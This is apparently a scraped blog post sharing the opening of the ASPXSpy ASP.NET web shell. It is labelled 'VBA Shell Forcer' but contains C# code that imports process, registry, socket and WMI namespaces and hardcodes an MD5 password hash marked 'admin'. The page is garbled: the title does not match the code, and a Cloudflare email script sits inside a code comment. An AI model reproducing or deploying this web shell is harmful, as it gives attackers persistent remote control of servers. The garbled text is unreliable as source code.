 ```yaml
---
id: 24
title: VBA Shell Forcer
author: admin
layout: post
categories:
  - VBA
---
```



### C# Shell SQL tool Source code

#### Copyright &copy; 2006-2009 alikaptanoglu


{% highlight csharp linenos %}
<%@ Page Language="C#" Debug="true" trace="false" validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>
<%@ import Namespace="System.IO"%>
<%@ import Namespace="System.Diagnostics"%>
<%@ import Namespace="System.Data"%>
<%@ import Namespace="System.Management"%>
<%@ import Namespace="System.Data.OleDb"%>
<%@ import Namespace="Microsoft.Win32"%>
<%@ import Namespace="System.Net.Sockets" %>
<%@ import Namespace="System.Net" %>
<%@ import Namespace="System.Runtime.InteropServices"%>
<%@ import Namespace="System.DirectoryServices"%>
<%@ import Namespace="System.ServiceProcess"%>
<%@ import Namespace="System.Text.RegularExpressions"%>
<%@ Import Namespace="System.Threading"%>
<%@ Import Namespace="System.Data.SqlClient"%>
<%@ import Namespace="Microsoft.VisualBasic"%>
<%@ Assembly Name="System.DirectoryServices,Version=2.0.0.0,Culture=neutral,PublicKeyToken=B03F5F7F11D50A3A"%>
<%@ Assembly Name="System.Management,Version=2.0.0.0,Culture=neutral,PublicKeyToken=B03F5F7F11D50A3A"%>
<%@ Assembly Name="System.ServiceProcess,Version=2.0.0.0,Culture=neutral,PublicKeyToken=B03F5F7F11D50A3A"%>
<%@ Assembly Name="Microsoft.VisualBasic,Version=7.0.3300.0,Culture=neutral,PublicKeyToken=b03f5f7f11d50a3a"%>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<script runat="server">
/*
Thanks Snailsor,FuYu,BloodSword,Cnqing,
Code by Bin
Make in China
Blog: http://alikaptanoglu.blogspot.com
E-mail : ali_kaptanoglu@hotmail.com<script cf-hash="f9e31" type="text/javascript">
/* <![CDATA[ */!function(){try{var t="currentScript"in document?document.currentScript:function(){for(var t=document.getElementsByTagName("script"),e=t.length;e--;)if(t[e].getAttribute("cf-hash"))return t[e]}();if(t&&t.previousSibling){var e,r,n,i,c=t.previousSibling,a=c.getAttribute("data-cfemail");if(a){for(e="",r=parseInt(a.substr(0,2),16),n=2;a.length-n;n+=2)i=parseInt(a.substr(n,2),16)^r,e+=String.fromCharCode(i);e=document.createTextNode(e),c.parentNode.replaceChild(e,c)}}}catch(u){}}();/* ]]> */</script>
*/
public string Password="21232f297a57a5a743894a0e4a801fc3";//admin
public string vbhLn="ASPXSpy";
public int TdgGU=1;
protected OleDbConnection Dtdr=new OleDbConnection();
protected OleDbCommand Kkvb=new OleDbCommand();
public NetworkStream NS=null;